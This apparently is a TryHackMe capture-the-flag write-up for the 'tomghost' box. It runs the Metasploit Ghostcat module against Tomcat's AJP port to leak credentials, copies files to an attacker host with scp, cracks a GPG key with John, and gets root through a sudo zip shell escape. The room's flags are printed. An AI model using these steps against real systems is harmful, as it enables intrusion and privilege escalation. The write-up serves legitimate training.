# tomghost

> Platform: TryHackMe
>
> Created by: stuxnet
>
> Difficulty: Easy

## Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brooklyn Nine Nine]
└─$ nmap -sVSC <TARGET-IP> -T5 -Pn -n -vvv -oA brooklyn99scan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.27s latency).
Scanned at 2025-08-03 13:44:59 +08 for 20s
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack ttl 61
8009/tcp open  ajp13      syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack ttl 61 Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the **Nmap** results, looks like there's an **Apache Tomcat server** running in **port 8080**. Try to view the page.
![img](tomcatpage.png)

There's also an **Apache Jserv** running in **port 8009**. Let's try to Google for it a bit.
![img](google.png)

Based on this, actually it is giving us the **hints** already, which we need to exploit using the **Ghostcat attack**.

## Exploitation

In **Metasploit**, use the **ghostcat module** and make sure to set the **port to 8009**:
```
$ msfconsole -q

msf6 > search ghostcat

msf6 > use auxiliary/admin/http/tomcat_ghostcat

msf6 auxiliary(admin/http/tomcat_ghostcat) > options

msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS <TARGET-IP>

msf6 auxiliary(admin/http/tomcat_ghostcat) > set RPORT <TARGET-PORT>

msf6 auxiliary(admin/http/tomcat_ghostcat) > run
```

There will be the **credentials leaked** that we need to use to proceed for the next steps.

Now, let's **SSH using the credentials** and retrieve the **".pgp"** and **".asc"** file. From here also we can retrieve the **user.txt** inside the **merlin** directory (maybe unintended solve):
```
$ ssh <username>@<TARGET-IP>

$ ls
credential.pgp  tryhackme.asc

$ scp credential.pgp <ATTACKER-USERNAME>@<ATTACKER-IP>:~

$ scp tryhackme.asc <ATTACKER-USERNAME>@<ATTACKER-IP>:~

$ cat /home/merlin/user.txt
```

In our attacker machine, let's try to **crack it using John**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ gpg2john tryhackme.asc > tryhackme.hash  

File tryhackme.asc

┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt tryhackme.hash             
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSPHRASE>        (tryhackme)     
1g 0:00:00:00 DONE (2025-08-03 14:24) 16.66g/s 17866p/s 17866c/s 17866C/s marshall..<PASSPHRASE>
Use the "--show" option to display all of the cracked passwords reliably
Session completed.            
```

Now, using the **passphrase**, let's try to decrypt the **".pgp"** file. First, **import the ".asc"** file (it will prompt to enter the passphrase), then **decrypt the ".pgp"** file using **gpg command**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ gpg --import tryhackme.asc                                    
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ gpg --decrypt credential.pgp 
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
<USERNAME>:<PASSWORD>
```

Now, let's try to **SSH using the new credentials**:
```
$ ssh <USERNAME>@<TARGET-IP>

$ cat user.txt
```

<details>
<summary><b>🏳️Flag: user.txt</b></summary>
<b>THM{GhostCat_1s_so_cr4sy}</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
$ sudo -l
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Now, let's check how can we spawn a privilege shell by using zip. From [GTFObins - zip](https://gtfobins.github.io/gtfobins/zip/), we can get privilege shell running the command from the **Sudo section**.
```
$ TF=$(mktemp -u)

$ sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'

# sudo rm $TF
```

Now, we need to read the **"root.txt"** file to complete this machine.
```
# cat /root/root.txt
```

![img](rootflag.png)

<details>
<summary><b>🏳️Flag: root.txt</b></summary>
<b>THM{Z1P_1S_FAKE}</b>
</details><br>